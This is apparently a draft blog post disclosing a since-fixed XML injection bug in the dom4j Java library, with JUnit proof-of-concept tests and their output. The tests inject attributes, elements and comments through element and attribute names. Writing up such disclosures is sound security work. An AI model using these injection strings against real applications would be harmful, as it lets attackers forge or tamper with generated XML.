 +++
title = "XML Injection in dom4j library"
description = "Brief summary of a vulnerabitity on dom4j by inject XML on element and attribute names"
date = 2018-07-21T22:15:43+10:00
draft = true
toc = false
categories = ["breaking"]
tags = ["xml", "cve", "injection"]
+++

[dom4j](https://dom4j.github.io/) is a well known java library to process and generate XML files.

In version [2.1.1](https://github.com/dom4j/dom4j/releases/tag/version-2.1.1) they fixed an issue regarding a [XML injection on the element and attribute names](https://github.com/dom4j/dom4j/issues/48).

Prior to this version, the values of the elements were properly sanitized, but not the element itself. Same for attribute names. Let me show an example with a test

{{< highlight java "linenos=inline,hl_lines=6 8 20" >}}
    @Test
    public void testXMLInjectionOnElementName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedAttribute = "age=\"20\"";

        Element author = root.addElement("author " + injectedAttribute)
                .addAttribute("name", "James")
                .addAttribute("location", "UK");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");


        writeFile(document);

        assertThat(document.asXML(), containsString(injectedAttribute));
    }
{{< / highlight >}}

Result:
{{< highlight xml >}}  
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author age="20" name="James" location="UK"/>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

On `line 6` lives the attribute we want to inject. The injection happens on `line 8` by adding our attribute to the element name. And finally on `line 20`, the test asserts the line was successfully injected. The injection works successfully in case the element is a self closing element (i.e the element does not have any values). If the element has values the injected attribute is also written in the closing element which breaks any XML parsing.

Things get a bit more interesting when playing around with attributes. It is possible to inject new elements by adding them as attribute names, let me show another test as an example.

{{< highlight java "linenos=inline,hl_lines=6 9 20">}}
    @Test
    public void testXMLInjectionOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:
{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><author name="James" location="UK">James Strachan</author>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>

{{< / highlight >}}

This test is very similar to the previous one. Except that instead to add new attributes to an element, we are adding new elements. Also, we are doing that by inject into attribute names, which means we do not have the constraint anymore about self closing elements! The injection through attribute names are very powerful, an attacker could potentially add as many elements as they want.

Not only that, an attacker could comment other elements as well and effectively replacing them! Here comes the test:

{{< highlight java "linenos=inline,hl_lines=6 9 14 20">}}
    @Test
    public void testCommentOtherElementsOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><!-- author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("--><author name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:

{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><!-- author name="James" location="UK">James Strachan</author>
  <author --><author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

It is common place in an application to hardcode element names and attribute names, so this bug is not very likely to be exploitable. However, if an attacker somehow can inject any inputs on element and attribute names, she can control how the file will be generated. 

Thanks to [@FilipJirsak](https://github.com/FilipJirsak) for the quick response and release of the fixed version. Version 2.1.1 and above are fixed and do not have have the issue anymore.

## References

- https://github.com/dom4j/dom4j/issues/48 - Github issue describing the bug
- https://github.com/mario-areias/dom4j-xml-injection - Repository with the code described on this blog post
- https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008) - Test for XML injection from OWASP